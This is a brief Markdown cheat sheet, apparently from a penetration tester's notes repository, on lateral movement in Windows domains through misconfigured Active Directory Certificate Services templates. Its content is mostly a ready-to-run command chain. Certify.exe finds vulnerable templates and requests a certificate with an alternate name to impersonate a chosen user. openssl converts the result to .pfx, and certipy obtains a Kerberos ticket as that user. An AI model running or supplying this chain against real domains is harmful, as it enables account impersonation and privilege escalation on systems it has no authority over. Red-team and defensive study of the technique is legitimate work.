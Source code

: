 # Lateral Movement

- [Lateral Movement](#lateral-movement)
  - [Windows](#windows)
    - [ADCS](#adcs)
      - [Certificate Template Exploit](#certificate-template-exploit)

## Windows

### ADCS

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation
https://github.com/GhostPack/Certify
https://github.com/dirkjanm/PKINITtools

#### Certificate Template Exploit

Certificate templates in ADCS (Active Directory Certificate Services) are pre-configured templates that define the parameters for a particular type of certificate that can be issued by the certificate authority (CA).

We can use [Certify.exe](https://github.com/GhostPack/Certify) to find vulnerable certificate template.

```powershell
.\Certify.exe find /vulnerable
```

Request a new certificate with the vulnerable template and try to impersonate.

```powershell
.\Certify.exe request /ca:<AD-CA_name> /template:<Template_name> /altname:<user_you_want_to_impersonate>
```

This will produce a `cert.pem`. Use `openssl` to convert it into `.pfx`.

```bash
# get cert.pfx
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now ask the TGT using [Certipy](https://github.com/ly4k/Certipy).

```bash
└─$ certipy auth -pfx cert.pfx -dc-ip <DC_IP> -u '<user_you_want_to_impersonate>' -domain <domain_name>
```

> more documentation here:
> https://0xalwayslucky.gitbook.io/cybersecstack/active-directory/adcs-privesc-certificate-templates
> https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1